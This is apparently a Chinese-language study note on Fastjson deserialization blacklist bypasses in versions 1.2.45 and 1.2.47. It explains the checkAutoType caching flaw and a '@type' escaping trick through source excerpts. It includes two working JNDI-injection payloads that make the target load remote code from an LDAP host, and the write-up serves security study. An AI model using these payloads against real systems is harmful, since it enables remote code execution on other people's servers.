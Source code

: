 #### 1.2.45

黑名单被绕过，`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`

```java
exp = "{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"properties\":{\"data_source\":\"ldap://1.1.1.1:9999/Exploit\"}}"
```

#### 1.2.47

通过缓存，无需开启`autotype`

```java
exp = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://1.1.1.1:9999/Exploit\",\"autoCommit\":true}}}";
```

`checkAutoType`中的流程：

```java
if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
    throw new JSONException("autoType is not support. " + typeName);
}
```

而`TypeUtils.loadClass`中：

```java
if(classLoader != null){
    clazz = classLoader.loadClass(className);
    
    if (cache) {
        mappings.put(className, clazz);
    }
    return clazz;
}
```

`MiscCodec.deserialize`中有这样的逻辑，跟踪`strVal`是由`{"@type": "java.lang.Class", "val": "class"}`传入的

```java
if (clazz == Class.class) {
    return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());
}
```

由于`TypeUtils.loadClass`会进行缓存，再次执行到第二段payload时，在`checkAutoType`中，直接`TypeUtils.getClassFromMapping`从缓存中获取到了`JdbcRowSetImpl`

同时，由于FJ的字符解析规则，`@type`可这样写`@\u0074ype`/`@\x74ype`

# References

+ https://javasec.org
+ https://www.anquanke.com/post/id/194384
+ https://xz.aliyun.com/t/6660
+ https://xz.aliyun.com/t/6633